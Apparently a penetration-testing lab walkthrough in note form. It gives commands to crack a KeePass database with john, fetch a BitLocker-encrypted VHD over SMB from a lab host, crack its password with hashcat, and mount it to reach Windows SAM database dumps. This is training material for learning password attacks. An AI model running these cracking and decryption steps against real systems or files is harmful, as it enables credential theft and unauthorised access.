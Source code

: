 <figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* keepass2john to crack logins
  * `/usr/share/john/keepass2john Logins.kdbx > kdbx.hash`
  * `john --wordlist=mut%password.list kdbx.hash`
    * we obtained PW
* open Keepass w obtained PW to get creds for David

David

* `smbclient -U david \\\\10.129.202.222\\david`
  * ls
  * get Backup.vhd

Attack bitlocker vhd file

* `bitlocker2john -i Backup.vhd > backup.hashes`
* `grep "bitlocker\$0" backup.hashes > backup.hash`
* `hashcat -m 22100 backup.hash mut%password.list -o backup.cracked`
  * we obtained backup PW

Open VHD

* `sudo modprobe nbd`
* `sudo apt install qemu-utils`
* `sudo qemu-nbd -c /dev/nbd0 Backup.vhd`
* `sudo cryptsetup bitlkOpen /dev/nbd0p2 /dev/nbd0p2 backup`
* `sudo mkdir /mnt/mydrive`
* `sudo mount /dev/mapper/backup /mnt/mydrive`
  *   we discovered two files - dumps from the Win SAM DB
